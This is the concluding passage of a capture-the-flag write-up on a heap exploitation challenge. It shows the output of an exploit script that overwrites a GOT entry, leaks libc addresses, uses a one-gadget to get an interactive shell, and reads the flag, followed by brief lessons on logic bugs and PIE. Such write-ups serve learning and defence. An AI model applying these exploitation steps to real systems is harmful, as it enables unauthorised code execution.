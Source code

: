 The important parts are the functions ``setup()`` and ``__main__``.

## Conclusion

Finally the challenge is solved:

```
$ python exploit.py
[*] trying to overwrite got @0x603018
[*] libc function address 0x7f676dc944f0
[*] libc base address     0x7f676dc10000
[*] one gadget at 0x7f676dc55390
[*] Switching to interactive mode
$ ls
flag
main.elf
$ cat flag
RHME3{h3ap_0f_tr0uble?}
```

It was a very interesting challenge: didn't use the very common buffer overflow but a simple
logic bug; in particular shows that also with a number of modern protection the exploiting
it's very possible. Probably enabling ``PIE`` should have make more troublesome the creation of a weird machine.